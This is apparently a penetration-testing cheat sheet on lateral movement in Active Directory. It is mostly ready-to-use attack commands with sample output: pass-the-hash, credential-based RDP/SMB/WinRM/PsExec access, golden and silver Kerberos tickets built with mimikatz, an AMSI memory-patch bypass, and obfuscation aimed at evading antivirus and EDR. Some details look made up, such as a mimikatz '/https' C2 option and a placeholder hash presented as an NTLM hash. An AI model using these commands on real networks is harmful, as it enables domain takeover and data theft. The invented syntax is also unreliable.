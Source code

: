 # Lateral Movement in Active Directory Penetration Testing

## Overview

Lateral movement involves using compromised credentials or access to move between systems in the AD environment, targeting high-value assets like domain controllers or critical servers.

## Detailed Methods and Techniques

- **Pass-the-Hash**:
  - **Technique**: Use stolen NTLM hashes to authenticate to other systems.
  - **Execution**: Use `psexec.py` from Impacket.

    ```bash
    psexec.py example.com/jdoe@192.168.1.20 -hashes :aad3b435b51404eeaad3b435b51404ee
    ```

    **Example Output**:

    ```
    [*] Connected to 192.168.1.20 as jdoe
    ```
    - **Purpose**: Access another system using stolen credentials.
- **Remote Desktop Access**:
  - **Technique**: Use compromised credentials to log into systems via RDP.
  - **Execution**: Use `xfreerdp`.

    ```bash
    xfreerdp /u:jdoe /p:P@ssw0rd123 /v:192.168.1.20
    ```

    **Example Output**: RDP session opens to the target system.
    - **Purpose**: Gain interactive access to a server or workstation.
- **SMB Share Access**:
  - **Technique**: Access shared folders to extract data or deploy payloads.
  - **Execution**: Use `smbclient.py` from Impacket.

    ```bash
    smbclient.py example.com/jdoe:P@ssw0rd123@192.168.1.20
    ```

    **Example Output**:

    ```
    smb: \> dir
    shared_folder  D  0  Mon Jul  7 10:00:00 2025
    ```
    - **Purpose**: Extract sensitive data from accessible shares.
- **WinRM Access**:
  - **Technique**: Use WinRM for remote command execution.
  - **Execution**: Use `evil-winrm`.

    ```bash
    evil-winrm -i 192.168.1.20 -u jdoe -p P@ssw0rd123
    ```

    **Example Output**:

    ```
    *Evil-WinRM* PS C:\Users\jdoe>
    ```
    - **Purpose**: Execute commands on remote systems.
- **PsExec with Credentials**:
  - **Technique**: Use valid credentials to execute commands via PsExec.
  - **Execution**: Use `psexec`.

    ```bash
    psexec \\192.168.1.20 -u example.com\jdoe -p P@ssw0rd123 cmd
    ```

    **Example Output**:

    ```
    PsExec v2.34 - Execute processes remotely
    cmd.exe started on 192.168.1.20
    ```
    - **Purpose**: Gain a shell on a remote system.

## Exploitation Methods

- **Overpass-the-Hash**:
  - **Technique**: Convert an NTLM hash to a Kerberos ticket for lateral movement.
  - **Execution**: Use `mimikatz` to generate a Kerberos ticket.

    ```bash
    mimikatz # sekurlsa::pth /user:jdoe /domain:example.com /ntlm:aad3b435b51404eeaad3b435b51404ee
    ```

    **Example Output**:

    ```
    [*] TGT created for jdoe@EXAMPLE.COM
    ```
    - Use the ticket with `psexec.py` to access another system.
    - **Purpose**: Authenticate to systems without the password.
- **Golden Ticket Attack**:
  - **Technique**: Create a forged Kerberos TGT using the `krbtgt` account hash.
  - **Execution**: Use `mimikatz`.

    ```bash
    mimikatz # kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-1234567890-0987654321-123456789 /krbtgt:aad3b435b51404eeaad3b435b51404ee
    ```

    **Example Output**:

    ```
    [*] Golden ticket created
    ```
    - Use the ticket to access any system in the domain.
    - **Purpose**: Gain persistent Domain Admin access.
- **Silver Ticket Attack**:
  - **Technique**: Forge a TGS ticket for a specific service.
  - **Execution**: Use `mimikatz`.

    ```bash
    mimikatz # kerberos::golden /user:jdoe /domain:example.com /sid:S-1-5-21-1234567890-0987654321-123456789 /target:sql01.example.com /service:cifs /rc4:aad3b435b51404eeaad3b435b51404ee
    ```

    **Example Output**:

    ```
    [*] Silver ticket created
    ```

## AV/AMSI Evasion Techniques

- **Obfuscated Payloads**:
  - **Technique**: Obfuscate PowerShell scripts for lateral movement.
  - **Execution**: Use `Invoke-Obfuscation`.

    ```powershell
    Invoke-Obfuscation -ScriptBlock {Invoke-Command -ComputerName 192.168.1.20 -ScriptBlock {whoami}} -Technique Encode
    ```

    **Example Output**:

    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Evade AMSI detection during remote execution.
- **In-Memory Execution**:
  - **Technique**: Execute commands in memory.
  - **Execution**: Use `evil-winrm` with in-memory scripts.

    ```bash
    evil-winrm -i 192.168.1.20 -u jdoe -p P@ssw0rd123 -s payload.ps1
    ```
    - **Purpose**: Avoid AV detection by not writing to disk.
- **AMSI Bypass**:
  - **Technique**: Disable AMSI via memory patching.
  - **Execution**:

    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
    ```
    - **Purpose**: Prevent PowerShell script scanning.
- **Encrypted C2 Channels**:
  - **Technique**: Use HTTPS for C2 communication.
  - **Execution**: Configure `mimikatz` with HTTPS.

    ```bash
    mimikatz # sekurlsa::pth /user:jdoe /domain:example.com /ntlm:aad3b435b51404eeaad3b435b51404ee /https
    ```
    - **Purpose**: Evade network-based AV/EDR monitoring.

## Tools

- **Impacket**: Pass-the-hash and SMB access (`psexec.py`, `smbclient.py`).
- **Mimikatz**: Kerberos ticket attacks (`sekurlsa::pth`, `kerberos::golden`).
- **xfreerdp**: RDP access (`xfreerdp /u:user /p:pass /v:target`).
- **evil-winrm**: WinRM access.
- **PsExec**: Remote command execution.

## Best Practices

- Minimize lateral movement attempts to avoid detection by EDR systems.
- Document all accessed systems and methods for reporting.
- Use encrypted connections for sensitive operations.
- Verify permission for lateral movement to avoid unintended impact.